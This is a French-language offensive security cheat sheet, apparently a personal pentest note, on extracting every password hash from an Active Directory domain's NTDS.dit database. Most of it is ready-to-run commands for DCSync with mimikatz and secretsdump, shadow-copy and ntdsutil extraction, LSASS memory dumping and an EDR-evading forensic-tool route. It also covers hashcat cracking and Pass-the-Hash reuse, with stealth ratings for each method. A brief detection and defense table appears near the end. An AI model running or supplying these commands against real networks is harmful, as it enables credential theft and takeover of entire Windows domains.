

# Dump NTDS.dit

> [!info] **En 1 phrase**
> NTDS.dit = la **base de données AD** (sur chaque DC) qui contient **tous les hashes NTLM/AES du domaine** —
> le dumper = avoir **tous les mots de passe** (en hash) d'un seul coup.

> [!info] **Principe**
> NTDS.dit est chiffré avec la **SYSTEM hive** (SYSKEY). Il faut donc **les deux fichiers** :
> `ntds.dit` **+** `SYSTEM` (`C:\Windows\System32\config\SYSTEM`) → `secretsdump.py LOCAL`.

---

## Les sources de hashes



| Méthode | Simplicité | Discrétion | Outils |
|---|---|---|---|
| **DCSync** | | | `secretsdump -just-dc`, mimikatz `lsadump::dcsync` |
| **VSS (Volume Shadow Copy)** | | | `vssadmin`, `nxc --ntds vss` |
| **ntdsutil IFM** | | | `ntdsutil` (compte admin requis) |
| **Mémoire (LSASS)** | | | mimikatz `sekurlsa::krbtgt` / `lsadump::lsa` |
| **Forensics (dumpit/volatility)** | | | `dumpit` + `volatility` |

---

## Méthodes détaillées

### 1. DCSync (le plus simple, le plus bruyant)

```bash
# Un seul compte
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt

# Tout le domaine en CSV
mimikatz# lsadump::dcsync /domain:htb.local /all /csv

# Impacket (Linux)
secretsdump.py -just-dc 'corp.local/admin:pass'@DC01
nxc smb 10.10.10.10 -u admin -p pass --ntds            # dump via ntdsutil
nxc smb 10.10.10.10 -u admin -p pass --ntds vss        # dump via VSS (plus discret)
```

> [!warning] **OPSEC** : la réplication **se fait toujours entre 2 ordinateurs** → un DCSync
> depuis un compte utilisateur peut lever des alertes. Les **comptes machines** (`DC$`) et
> Domain/Enterprise Admins peuvent le faire.

### 2. Volume Shadow Copy (VSS) — le meilleur rapport simplicité/discrétion

```bash
# Sur le DC (en admin) :
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
# puis sur ta machine :
secretsdump.py -system SYSTEM -ntds NTDS.dit LOCAL

# NetExec fait tout ça en une commande :
nxc smb 10.10.10.10 -u admin -p pass --ntds vss
```

### 3. ntdsutil IFM (copie officielle)

```bash
ntdsutil "ac i ntds" "ifm" "create full C:\temp" q q
# → crée C:\temp\Active Directory\ntds.dit + C:\temp\registry\SYSTEM
secretsdump.py -system C:\temp\registry\SYSTEM -ntds "C:\temp\Active Directory\ntds.dit" LOCAL
```

### 4. Mémoire (très discret sur un DC)

```powershell
mimikatz> privilege::debug
mimikatz> sekurlsa::krbtgt            # clé krbtgt depuis le LSASS
mimikatz> lsadump::lsa /inject /name:krbtgt
```

### 5. Forensics / "Blue team tools" (anti-EDR)

```powershell
# Dump mémoire (outil signé légitime)
magnet dumpit
# Volatility : extraire la SYSTEM hive
volatility -f test.raw windows.registry.printkey.PrintKey
volatility --profile=Win10x64_14393 dumpregistry -o 0xaf0287e41000 -D output_vol -f test.raw
# FTK Imager : copie physique de C:\Windows\NTDS\ntds.dit
secretsdump.py LOCAL -system output_vol/registry.*SYSTEM.reg -ntds ntds.dit
```

### 6. AD LDS (adamntds.dit)

```bash
vssadmin create shadow /for=C:
cp "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Program files\Microsoft ADAM\instance1\data\adamntds.dit" .\
python ntdissector/tools/user_to_secretsdump.py *.json
```

---

## Bonus : reversible encryption (mdp en clair !)

> Les comptes avec `userAccountControl` bit `0x80` ("Store passwords using reversible encryption")
> ont leur mdp stocké **chiffré mais réversible** → secretsdump les affiche **en clair**.

```powershell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

---

## Tableau des hashes extraits (hashcat)

| Type | Mode hashcat | Note |
|---|---|---|
| **NT (NTLM)** | `1000` | Le principal — le plus souvent crackable |
| **LM** | `3000` | Obsolète |
| **NetNTLMv2** | `5600` | Si capturé sur le réseau (pas dans NTDS) |
| **DCC2 (MSCache)** | `2100` | Cache local, plus lent à cracker |

```bash
hashcat -m 1000 ntds-hashes.txt rockyou.txt -O -w 4
# Les hashes NT non crackés servent quand même : Pass-the-Hash direct !
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Restreindre DCSync** | Seuls DC$ + Domain/Enterprise Admins ; audit des droits de réplication |
| **Surveiller les requêtes DRSUAPI** | Événement 4662 / requêtes GetNCChanges anormales |
| **Activer la protection LSASS** | LSA Protection (RunAsPPL) contre mimikatz |
| **Credential Guard** | Isole les secrets du LSASS (mémoire) |
| **Monitorer vssadmin / ntdsutil** | Logs de commandes système sensibles |

## Tips & Pièges

- **NTDS + SYSTEM = même moment** : la SYSTEM hive doit correspondre au moment du dump (SYSKEY change au reboot).
- Les **hashes AES256** sont aussi dans NTDS (utile pour [[Kerberos Delegation|délégation]] / tickets).
- Un hash NT non cracké = toujours utilisable en **PtH** (voir [[Pass-the-Hash|fiche]]).
- **`--ntds` de nxc nécessite des droits élevés** sur le DC ; le `vss` est plus fiable en environnement verrouillé.
- Pense au **reversible encryption** : certains comptes se craquent en 1 sec (mdp en clair dans le dump).

---

> [!info] **Sources**
> - [InternalAllTheThings — NTDS Dumping](https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/active-directory/ad-adds-ntds-dumping.md)
> - [Bypassing EDR NTDS.dit protection using BlueTeam tools](https://medium.com/@0xcc00/bypassing-edr-ntds-dit-protection-using-bluteteam-tools-1d161a554f9f)

Liens : [[DCsync| DCsync]] · [[Password Cracking| Password Cracking]] · [[05 - Active Directory| Active Directory]]
